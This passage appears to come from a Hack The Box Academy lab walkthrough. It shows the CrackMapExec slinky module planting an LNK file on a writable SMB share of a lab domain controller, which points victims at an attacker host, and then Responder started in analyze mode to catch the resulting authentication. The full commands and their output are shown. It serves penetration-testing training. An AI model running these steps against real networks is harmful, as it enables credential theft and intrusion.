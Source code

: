 Code: shell

```shell
crackmapexec smb 172.16.117.3 -u anonymous -p ''  -M slinky -o SERVER=172.16.117.30 NAME=importantt
```

```shell-session
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.3 -u anonymous -p ''  -M slinky -o SERVER=172.16.117.30 NAME=importantt

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous: 
SLINKY      172.16.117.3    445    DC01             [+] Found writable share: smb
SLINKY      172.16.117.3    445    DC01             [+] Created LNK file on the smb share
<SNIP>
```

Right after they have used the module (`slinky`), students will proceed to use `Responder` in analyze mode:

Code: shell

```shell
cd tools/Responder
sudo python3 Responder.py -I ens192 -A
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192 -A
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [OFF]
    NBT-NS                     [OFF]
    MDNS                       [OFF]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>
```
